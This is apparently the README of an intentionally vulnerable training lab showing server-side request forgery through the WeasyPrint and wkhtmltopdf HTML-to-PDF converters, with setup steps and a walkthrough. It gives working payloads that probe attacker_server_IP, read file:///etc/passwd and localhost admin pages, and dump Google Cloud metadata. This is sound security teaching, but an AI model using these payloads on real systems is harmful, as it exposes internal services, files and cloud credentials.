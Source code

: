 # 1.0 SSRF in HTML to PDF converter functionality

<b>Exploitation Difficulty: Easy</b><br>

These are the SSRF scenario based on the fact that when web application accepting the user user input, placing them in HTML and pass the HTML code to "HTML to PDF generator".
<br><br>When HTML code will be processed by the "HTML to PDF generator", HTML code will be evaluated to corresponding representation of that HTML code in web browser.
<br>In this case, if attacker supplied data is not getting senitized or filtered before placing it to HTML code, attacker can trick "HTML to PDF generator" software to access the internal Hosts/domains. 

We have scenarios of 2 "HTML to PDF generator" which allow an attacker to exploit SSRF vulnerability if web application is passing the untrusted user supplied data to HTML code.
<br>These "HTML to PDF generator" are:

    1. Weasyprint 
    2. wkhtmltopdf

<br><b>pdf_ssrf_weasyprint.php</b> is vulnerable script which is using <b>weasyprint</b>.
<br><b>pdf_ssrf_wkhtmltopdf.php</b> is vulnerable script which is using <b>wkhtmltopdf</b>.

<b>1.1 System Requirements:</b>
  
    1. Weasyprint and wkhtmltopdf converter must be installed on the machine.
    2. Web server with PHP support 

<b>1.2.1 Linux based setup: wkhtmltopdf</b>
<br>No change is required. This script is developed to work on Linux OS. 

<b>1.2.2 Windows based setup:</b>
<br>Below mentioned changes will be required:


Remove comment syntax from the line no "271" and "272" and make them like this

    $path_pdf_converter='C:\Program Files\wkhtmltopdf\bin\wkhtmltopdf.exe'; /*remove the comment if you want to use it on Windows machine*/
    passthru('"'.$path_pdf_converter.'" -T 0 -R 0 -B 0 -L 0 --orientation Portrait --page-size A4 sample.html output4.pdf'); /*remove the comment if you want to use it on Windows machine*/

Comment out the the line number 273 like this 

    //passthru('xvfb-run wkhtmltopdf -T 0 -R 0 -B 0 -L 0 --orientation Portrait --page-size A4 --quiet sample.html output4.pdf 2>&1');

<b>1.3 Installation</b>

wkthmltopdf
    
    sudo apt-get update
    sudo apt-get install xvfb libfontconfig wkhtmltopdf

weasyprint

As per the OS, follow steps from below mentioned URL to install the weasyprint:

https://weasyprint.readthedocs.io/en/stable/install.html
    

# 2.0 Exploitation


Let's start with exploitation and possible attack vectors to perform SSRF.

<b>2.1 SSRF in Weasyprint HTML to PDF generator</b>

Web application accepting user input via GUI.<br>  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w1.png?raw=true)

Accepted the user input, placed it inside the HTML code and generated PDF by rendering the HTML code 

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w2.png?raw=true)

After observing such behavior, try with following payloads to confirm whether web application code is vulnerable:

    <h1>test</h1>
    <img src=http://attacker_server_IP/>

If web application is processing the above mentioned payloads, go for below mentioned payloads to exploit SSRF.

<b>Payloads</b>

To grab the data from HTTP based URL, use below mentioned style payload

    <link rel=attachment href="http://web_URL">
    <link rel=attachment href="http://localhost/admin.php">
To grab the data from internal file system, use below mentioned style payload

    <link rel=attachment href="file://internal_file_path">
    <link rel=attachment href="file:///etc/passwd">
<b>2.1.1 Exploiting the SSRF - Google Cloud Metadata endpoint access</b>

Let's assume, web application is hosted inside the Google Cloud Platform. Now, try to grab the data from Google Cloud internal Metadata endpoint.
I saved sample username and password during the creation of the Virtual machine which are accessible on below mentioned URL:
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes

Below mentioned payload will grab and attach the HTTP response from the above metnioned Metadata URL to PDF:

    <link rel=attachment href="http://metadata.google.internal/computeMetadata/v1beta1/instance/?recursive=true">

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w3.png?raw=true)

Open the generated PDF and observe, nothing is there in customer name column. Download the generated PDF file to extract the data from it.

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w4.png?raw=true)

Extract the attached content from the downloaded PDF file using this Python <a href="https://github.com/incredibleindishell/SSRF_Vulnerable_Lab/blob/master/pdf_generator/weasy.py">Script</a> developed by Ben AKA Nahamsec. 

    python script.py  downloaded_file.pdf
  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w5.png?raw=true)

And Python script extracted the attached HTTP response from the Internal Metadata URL.

This is how an attacker can extract the HTTP response from other internal IPs/Hosts.

<b>2.2 SSRF in wkhtmltopdf, HTML to PDF generator</b>

An attacker can exploit SSRF in web application using wkhtmltopdf to generate the PDF from HTML having untrusted user supplied data placed in it. 

Web application is accepting user supplied data 
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk1.png?raw=true)

Generated PDF has user supplied data.
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk2.png?raw=true)

Payload to load internal app rendered HTTP response inside the PDF using <iframe> HTML tag is:
    
    <iframe src="http://internal_app" height=800px width=800px></iframe>

<b>Payload to access the web page which has "X-Frame-Options" header</b> in HTTP response and can not be loaded inside the <iframe> HTML tag.
    
    <body onload="document.createElement('form').submit.call(document.getElementById('myForm'))"><form id="myForm" name="myForm" action="http://internal_app" method=GET></form></body> 

Specify the above mentioned payload and submit the form
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk3.png?raw=true)

Open the generated the PDF and there we go....
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk4.png?raw=true)


./Thanks

